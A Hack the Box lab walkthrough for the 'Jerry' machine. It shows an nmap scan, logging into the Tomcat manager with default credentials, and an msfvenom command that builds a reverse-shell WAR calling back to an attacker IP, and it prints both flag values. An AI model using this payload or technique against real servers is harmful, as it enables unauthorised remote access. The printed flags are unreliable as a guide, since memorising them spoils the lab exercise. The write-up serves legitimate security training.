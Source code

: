 ```yaml
---
title: Jerry - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Jerry.png
---
```

---
title: 2024-10-12-Jerry - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Jerry.png
---
![Image](/assets/Jerry.png)

Jerry is a very simple box with the purpose of tasking the attackers to work on basic web-enumeration, unrestricted file upload parameters, and simple payload creation. Let's get to it.

### Reconnaissance

Our Scan: `nmap -sV -sC --open -p- 10.10.10.95`

Our Result:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 20:58 EDT
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 242.42 seconds

```

### Service Enumeration

By the looks of it, we've got one route here. Apache Tomcat is server hosting software, and this version here is pretty outdated and vulnerable. Specifically, we're able to use the /manager/html path to deploy malicious WAR files to the server. All we need are some credentials to access.

When we navigate to the page, we're met with this screen.

![Image](/assets/Screenshot 2024-09-03 at 9.08.45 PM.png)

We can see a manager tab on the left. Rooting around a bit, we can gather some more information about the structure of tomcat configurations. However, when we try to navigate to the /manager/html path, we're prompted with a credential portal. 

Now, I tried a few different default credentials and eventually got a 403_Access_Denied

![Image](/assets/Screenshot 2024-09-03 at 9.12.33 PM.png)

We can see, though, default credentials are given here in plain text. After reinstating the machine and rebooting Firefox, I was able to login again with those.

### Initial Access

Once in, there is good information regarding the name of the machine, services in use, versions, etc. 

![Image](/assets/Screenshot 2024-09-03 at 9.28.44 PM.png)

But, I'm interested in the file upload, as it looks like we have access to gain a shell via malicious files. In order to create one, it'll need to be WAR to fit the server's parameters. 

![Image](/assets/Screenshot 2024-09-03 at 9.29.58 PM.png)

We can use MSFVenom to create one for us, using: 
`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.3 lport=4321 -f WAR -o pwn.war`

This will create what we need, and we can upload it directly into the site. Once deployed, set up a listener for the port that we specified in the file. Once that is set, act on the file via tomcat, and boom. Shell.

![Image](/assets/Screenshot 2024-09-03 at 9.49.20 PM.png)

### Post Exploitation

Now, we've gotta find the flags. Syntax here was a bit new to me, but I figured it out. Here's some tips to remember

```
DIR - Directory listing
MORE - Almost 'cat' equivilent
```

Once you navigate to admin, this is what you find!

```
C:\Users\Administrator\Desktoplags>DIR
DIR
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktoplags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,560,448 bytes free


C:\Users\Administrator\Desktoplags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

C:\Users\Administrator\Desktoplags>

```

#easy #windows #manual 
